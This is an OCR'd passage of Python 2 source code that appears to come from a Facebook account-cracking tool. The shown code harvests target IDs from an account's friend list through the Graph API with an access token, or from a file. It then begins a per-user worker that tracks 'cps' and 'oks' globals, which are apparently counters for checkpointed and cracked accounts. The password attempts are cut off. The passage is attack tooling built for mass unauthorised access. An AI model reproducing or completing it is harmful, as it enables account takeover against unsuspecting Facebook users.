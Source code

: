 			print (R + ' ID not found !')

			raw_input(R + ' Back')

			pak()

		r=requests.get('https://graph.facebook.com/'+idt+'/friends?access_token='+tb)

		z=json.loads(r.text)

		for i in z['data']:

			id.append(i['id'])

	elif bp =='3':

		cb()

		print (logo)

		try:

			idlist=raw_input(S + '[☆] ' + R + 'Enter File Path: ' + G + '')

			for line in open(idlist,'r').readlines():

				id.append(line.strip())

		except IOError:

			print (R + ' File Not Fount !')

			raw_input(R + ' Back')

			pak()

	elif bp =='0':

		menu()

	else:

		print (R + ' Select a valid option !')

		pb()

	print (S + '[☆]' + P + ' Total Friends: ' + W + str(len(id)))

	psb(S + '[☆]' + S + ' To stop process  click on CTRL ~ Z')

	print

	print (S + 50*'-')

	print

	def main(arg):

		global cps, oks

		user=arg

		try:

			h=requests.get('https://graph.facebook.com/'+user+'/?access_token='+tb)
